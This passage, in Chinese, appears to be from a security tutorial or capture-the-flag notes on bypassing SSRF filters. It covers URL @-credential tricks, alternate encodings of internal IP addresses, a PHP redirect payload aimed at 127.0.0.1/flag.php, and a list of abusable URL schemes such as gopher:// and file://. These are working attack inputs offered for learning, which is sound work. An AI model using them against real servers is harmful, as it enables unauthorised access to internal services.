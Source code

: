 #### 3.1.4 `FTP`



#### 3.1.5 `HTTP`

访问内网的web服务

## 1.4 SSRF绕过

### 4.1 @绕过

URL的完整格式是

```plain
[协议类型]://[访问资源需要的凭证信息]@[服务器地址]:[端口号]/[资源层级UNIX文件路径][文件名]?[查询]#[片段ID]
```



根据url的结构`http://user:pass@ip/...`加上@前面的内容会被认为是用户名和密码信息

### 4.2 ip地址绕过/进制绕过

```plain
省略0：127.1
2进制格式:11000000101010000000000000000001
8进制格式：0300.0250.0.1
16进制格式：0xC0.0xA8.0.1
10进制整数格式：3232235521
16进制整数格式：0xC0A80001
```

### 4.3 302跳转/重定向

当网站代码实现了302跳转，我们可以利用这个跳转去执行某些网页。

自己编写一个php页面，然后通过访问这个页面实现跳转

```php
<?php
header("Location:http://127.0.0.1/flag.php");
?>
```

或者是利用短链接实现跳转

1. [TINYURL](https://tinyurl.com/app/myurls)生成一个短URL
2. 访问短URL实现跳转

### 4.4 利用最多的协议

```php
file:///
dict://
sftp://
ftp://
tftp://
ldap://
gopher://
..
zip://
bzip2://
zlib://
data://
```
